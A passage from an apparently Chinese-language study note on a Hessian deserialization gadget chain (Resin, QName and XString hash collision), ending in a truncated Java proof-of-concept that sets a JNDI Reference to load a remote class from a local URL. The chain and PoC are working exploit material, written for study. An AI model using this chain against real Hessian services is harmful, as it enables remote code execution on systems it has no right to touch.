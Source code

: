     ![image-20241017162202338](Hessian/image-20241017162202338.png)
    也就是说，序列化时想要不触发链条，我只要保证 `Node` 的 `hash` 不和 `XString` 的 hash 相同就行。
    但是考虑反序列化过程，`HashMap` 的元素最终都是一个一个 `put` 进去的，但是 `put` 时会调用 `HashMap#hash()`：
    ![image-20241017171751482](Hessian/image-20241017171751482.png)
    也就是说，`XString.hashCode() == QName.hashCode()`。
    总结一下要点：

    1. 通过反射修改 `HashMap()` 的 `table`，用 `HashMap#Node` 将 `XString` 和 `QName` 包裹并塞入，这样保证序列化时不会触发链。
    2. 同时保证 `XString.hashCode() == QName.hashCode()`，`XString.hash` 最终来源于其修饰字符串的 Hash，详见其 `XString.hashCode()`。

7. PoC 如下：

    ```java
    @Test
    public void testResin_Qname() throws Exception {
        // 1. 从底向上写 PoC，先完成 ContinuationContext 的实例化，它为 protected 类型，没法 new 出来
        Class<?> continuationContextClass = Class.forName("javax.naming.spi.ContinuationContext");
        Constructor<?> continuationContextDeclaredConstructor = continuationContextClass.getDeclaredConstructor(CannotProceedException.class, Hashtable.class);
        continuationContextDeclaredConstructor.setAccessible(true);
        // VersionHelper.loadClass() 中所需要的 Reference 最终来自 cpe.getResolvedObj()
        CannotProceedException cpe = new CannotProceedException();
        Reference reference = new Reference("TestRef.class", "TestRef", "http://localhost:8888/");
        cpe.setResolvedObj(reference);
        Object continuationContext = continuationContextDeclaredConstructor.newInstance(cpe, new Hashtable<>());
    